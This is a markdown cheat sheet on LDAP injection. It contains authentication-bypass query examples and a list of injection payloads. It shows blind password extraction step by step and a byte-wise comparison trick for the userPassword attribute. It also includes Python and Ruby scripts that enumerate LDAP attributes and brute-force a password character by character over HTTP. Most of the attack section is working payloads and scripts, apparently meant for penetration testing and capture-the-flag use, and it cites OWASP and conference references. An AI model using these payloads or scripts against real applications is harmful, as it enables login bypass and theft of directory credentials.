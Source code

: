 # LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Summary

* [Exploitation](#exploitation)
* [Payloads](#payloads)
* [Blind Exploitation](#blind-exploitation)
* [Defaults attributes](#defaults-attributes)
* [Exploiting userPassword attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
  * [Discover valid LDAP fields](#discover-valid-ldap-fields)
  * [Special blind LDAP injection](#special-blind-ldap-injection)

## Exploitation

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover valid LDAP fields

```python
#!/usr/bin/python3

import requests
import string

fields = []

url = 'https://URL.com/'

f = open('dic', 'r') #Open the worldists of common attributes
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### Special blind LDAP injection (without "*")

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```


```ruby
#!/usr/bin/env ruby

require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''

(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

By [noraj](https://github.com/noraj)


## References

- [[European Cyber Week] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
- [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN - October 31, 2018](https://0xukn.fr/posts/writeupecw2018admyssion/)
- [How To Configure OpenLDAP and Perform Administrative LDAP Tasks - Justin Ellingwood - May 30, 2015](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
- [How To Manage and Use LDAP Servers with OpenLDAP Utilities - Justin Ellingwood - May 29, 2015](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
- [LDAP Blind Explorer - Alonso Parada - August 12, 2011](http://code.google.com/p/ldap-blind-explorer/)
- [LDAP Injection & Blind LDAP Injection - Chema Alonso, José Parada Gimeno - October 10, 2008](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
- [LDAP Injection Prevention Cheat Sheet - OWASP - July 16, 2019](https://www.owasp.org/index.php/LDAP_injection)
